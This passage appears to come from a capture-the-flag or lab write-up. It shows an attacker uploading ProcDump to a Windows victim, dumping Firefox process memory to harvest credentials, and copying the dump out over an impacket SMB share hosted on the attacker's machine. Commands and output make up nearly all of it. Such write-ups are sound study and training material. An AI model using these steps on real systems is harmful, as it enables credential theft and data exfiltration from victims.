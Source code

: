 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`locate -i 'procdump64.exe'`:
```
/home/nabla/tools/ProcDump/procdump64.exe
```

`cp /home/nabla/tools/ProcDump/procdump64.exe ./`

`upload procdump64.exe`:
```
Info: Uploading /home/nabla/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe
                                        
Data: 566472 bytes of 566472 bytes copied
                                        
Info: Upload successful!
```

![Victim: chase](https://custom-icon-badges.demolab.com/badge/Victim-chase-64b5f6?logo=windows11&logoColor=white)

`./procdump64.exe -accepteula -ma 6072 ./firefox.dmp`:
```
ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[16:22:34] Dump 1 initiated: C:\Users\Chase\Documents\firefox.dmp
[16:22:34] Dump 1 writing: Estimated dump file size is 298 MB.
[16:22:40] Dump 1 complete: 298 MB written in 5.4 seconds
[16:22:40] Dump count reached.
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`mkdir ./smbshare`

`impacket-smbserver -user 'smbuser' -password 'smbpass' -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

![Victim: chase](https://custom-icon-badges.demolab.com/badge/Victim-chase-64b5f6?logo=windows11&logoColor=white)

`net.exe use K: \\10.10.14.28\smbshare /user:smbuser smbpass`:
```
The command completed successfully.
```

`copy ./firefox.dmp K:\\`
